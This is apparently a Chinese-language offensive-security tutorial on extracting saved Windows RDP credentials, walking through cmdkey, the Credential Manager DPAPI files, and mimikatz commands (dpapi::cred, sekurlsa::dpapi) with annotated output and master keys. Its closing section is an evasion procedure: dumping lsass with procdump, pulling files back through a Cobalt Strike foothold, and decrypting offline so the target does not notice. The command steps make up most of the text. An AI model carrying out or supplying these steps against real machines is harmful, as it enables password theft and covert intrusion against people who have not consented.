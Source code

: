 ### Mimikatz 抓取 Windows RDP 凭证

[下载工具](https://github.com/Heart-Sky/ListRDPConnections/releases?utm_source=chatgpt.com)

![](https://pic1.imgdb.cn/item/68cc6c76c5157e1a8817f826.png)

**查看 mstsc 的连接记录**

```cmd
cmdkey /list
```

![](https://pic1.imgdb.cn/item/68cc5dadc5157e1a8817f038.png)

**查找本地的 Credentials , 注意实战中排查每个用户的这个目录**

```cmd
dir /a C:\Users\用户名\AppData\Local\Microsoft\Credentials\*
```

**路径**：`C:\Users\用户名\AppData\Local\Microsoft\Credentials\*`
 这个目录是 **Windows 凭据管理器 (Credential Manager)** 存放用户凭据的本地文件位置

![](https://pic1.imgdb.cn/item/68cc5df7c5157e1a8817f053.png)

每个文件名（如 `2940EFA7AD286DAC05F285B1F8956197`）是凭据项的 **GUID 哈希形式的标识符**

文件大小（2KB ~ 11KB）代表保存的加密数据长度

**加密方式**：Windows 使用 **DPAPI (Data Protection API)** 加密这些文件，绑定到用户的 SID 和登录凭据（主密钥保存在 `Protect` 文件夹下）

只有在用户上下文（或获取用户的 Windows 登录凭据/主密钥）时才能解密

```cmd
dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*
```

`%userprofile%`：环境变量，会被展开为当前用户个人文件夹路径，例如 `C:\Users\ydd33`

![](https://pic1.imgdb.cn/item/68cc5e57c5157e1a8817f078.png)

选择加密文件，使用 mimikatz 对其文件进行解密，并记录下 **guidMasterKey** 的值和 **pbDat**

```cmd
mimikatz.exe "privilege::debug" "dpapi::cred /in:C:\Users\ydd33\AppData\Local\Microsoft\Credentials\2940EFA7AD286DAC05F285B1F8956197" exit
```

`"privilege::debug"`
 请求并启用 `SeDebugPrivilege` 权限（等同于赋予当前进程调试/访问其他进程的高级权限）。

- 目的：让 Mimikatz 能够访问系统级资源和其它进程（例如 `lsass`）所持有的敏感凭据。
- 要求：通常需要 **管理员权限**；若想访问 SYSTEM 级别信息，需以 SYSTEM 或等价权限运行。

`"dpapi::cred /in:C:\Users\ydd33\AppData\Local\Microsoft\Credentials\2940EFA7AD286DAC05F285B1F8956197"`
 使用 Mimikatz 的 **DPAPI 模块**（`dpapi::cred`）去解析/解密一个存放在磁盘上的 **Credential Manager（Credentials 目录）** 文件

- `/in:<path>`：指定要解析的输入文件
- 模块工作方式（高层说明）：尝试解析该二进制凭据容器，识别 DPAPI 加密 blob，并**使用可用的 DPAPI 主密钥或会话凭据**去解密出明文凭据（若能找到解密密钥）

`exit`
 运行完上述命令后退出 mimikatz

![](https://pic1.imgdb.cn/item/68cc635dc5157e1a8817f29c.png)

`dwVersion : 00000001 - 1`
Blob 的版本号（DPAPI/Cred blob 版本）。表示该结构使用第 1 版格式

`guidProvider : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}`
指示使用的提供者/格式的 GUID（与 Windows DPAPI/加密实现相关的标识符）。通常表明这个 blob 遵循哪种 DPAPI 提供者/实现

`dwMasterKeyVersion : 00000001 - 1`
主密钥版本号（master key 的版本），用于匹配 master key 的版本（master key 文件里也会有对应版本）

`guidMasterKey : {5d12b634-3f68-4c43-b2ea-1dfd7cc35def}`
**关键**：指向用于加密该 blob 的 DPAPI master key 的 GUID（ID）。要解密这个 blob，通常需要对应 GUID 的 masterkey 文件（位于 `%appdata%\Microsoft\Protect\<SID>\{guid}` 或者机器/域级 Protect 目录），或能解密该 master key 的用户/机器凭证

`dwFlags : 20000000 - 536870912 (system ; )`
标志位集合。`0x20000000` 在 mimikatz 输出中被标注为 `system`，意味着该凭据是“系统/机器相关”的（即与机器或 SYSTEM 作用域有关，而不是纯属可漫游的用户凭据）。这会影响解密所需的上下文——例如可能需要机器级的 DPAPI key 或 SYSTEM 权限

`dwDescriptionLen : 00000012 - 18`
描述字符串的长度（字节数），接下来 `szDescription` 就是该长度的文本

`szDescription : 本地凭据数据`
描述字段（UTF-8/Unicode 文本），说明了这个 blob 的用途或来源（这里写着“本地凭据数据”）

`algCrypt : 00006610 - 26128 (CALG_AES_256)`
用于对数据实际加密的对称算法标识。`CALG_AES_256` 表明使用 AES-256（通常是 AES-CBC 或 AES-GCM，具体取决于实现/版本；常见为 AES-CBC + PKCS#7 填充）

`dwAlgCryptLen : 00000100 - 256`
加密算法的密钥长度（通常是位数或字节数语义混用）；这里 `256` 对应 AES-256 的 key 长度（bits）

`dwSaltLen : 00000020 - 32`
salt（盐）的长度（字节数）——32 字节盐用于派生密钥

`pbSalt : a8f2b2...`
salt 的十六进制值。用于从 master key /密码 派生出真正的加密密钥和/或 HMAC key（即 key derivation 的输入之一）

`dwHmacKeyLen : 00000000 - 0` & `pbHmackKey :`
这里显示主 HMAC key 长度为 0，且没有直接保存 `pbHmackKey`。某些 DPAPI 版本会有不同的 HMAC key 字段布局；实际 HMAC 密钥可能通过其它派生步骤产生，而不会原样放在 blob 中

`algHash : 0000800e - 32782 (CALG_SHA_512)`
哈希/派生函数使用的算法，`CALG_SHA_512` 表明使用 SHA-512 作为 KDF/HMAC 的散列函数（或用于 HMAC-SHA512）

`dwAlgHashLen : 00000200 - 512`
表示哈希位长（512 位 → SHA-512）

`dwHmac2KeyLen : 00000020 - 32`
第二个 HMAC key 的长度为 32 字节

`pbHmack2Key : 271d62...`
blob 中保存的用于第二阶段 HMAC/签名验证的键或相关数据

`dwDataLen : 000007c0 - 1984`
`pbData` 的长度（字节数）

`pbData : dd520d447d...`
被加密的主体数据（以十六进制显示）

`dwSignLen : 00000040 - 64`
签名或 MAC 的长度（字节数）

`pbSign : beb2f68d16...`
签名/MAC 的十六进制值。该值用于验证 `pbData` 的完整性，通常在解密前/后校验以保证未被篡改

通过 guidMasterKey 值找到内存中对应的 MasterKey

```cmd
mimikatz.exe "privilege::debug" "sekurlsa::dpapi" exit
```

`"sekurlsa::dpapi"`
 调用 Mimikatz 的 `sekurlsa` 子模块里的 `dpapi` 功能。`sekurlsa::dpapi` 专门寻找并导出 DPAPI 相关的密钥材料（例如与用户/机器 DPAPI masterkey 相关的内存结构、会话 key、解密所需的中间值等）

![](https://pic1.imgdb.cn/item/68cc6859c5157e1a8817f5b9.png)

最后解密

```
mimikatz.exe "privilege::debug" "dpapi::cred
/in:C:\Users\administrator\AppData\Local\Microsoft\Credentials\C2BE282F4A2C7A8AABA1E0
4728DC75A4
/masterkey:38c1288b5a8e690bc4258060e1bd1003e89f6c919468e780cc309f32f797c2e55d70d
2a45868676dafd61d04539900473a1f949f2243ffca06e1fae948bde25b" exit

mimikatz.exe "privilege::debug" "dpapi::cred /in:08D551D26DE48F42F19D482AE153A7D0
/masterkey:cef92a9f71a2826b0dbc93248b473cec8906176a9cdb97e9717c11c6855a8b2edf777
29b41c8970436b702a8199aeb65dbb1ab4cdf26105a12f4ac287575995e" exit
```

![](https://pic1.imgdb.cn/item/68cc698fc5157e1a8817f74f.png)

**由于我们不能保证我们的 mimikatz 是免杀状态，为了避免被对方发现，我们可以离线解密从而达到获取密码的目的其实很简单，就是把目标的文件和内存下载回来，在 VPS 或本机上进行 mimikatz 解密即可**

dump 目标的 lsass.exe 内存

```cmd
procdump.exe ‐accepteula ‐ma lsass.exe lsass1.dump
```

上线 CS, 下载目标的 Credentials 文件

```cmd
C:\Users\Administrator\AppData\Local\Microsoft\Credentials
```

用 mimikatz 载入 dump 回来的内存

```cmd
Sekurlsa::minidump lsass1.dump
```

获取 Credentials 的 GUID

```cmd
dpapi::cred /in:5CF098107895D40EC0A0FC47FB5BB7C7
```

获取内存中所有的 MasterKey

```cmd
sekurlsa::dpapi
```

利用 MasterKey 解密

```cmd
dpapi::cred
/in:5CF098107895D40EC0A0FC47FB5BB7C7
/masterkey:6b6ddf293f178cb282c2906c69d92226c137cca320aa6db2043708bc2755eba6cdd8f
aa89ef7dd656597da5346ecbb66aa57108247555e13caac0ff09ce2e1c6
```
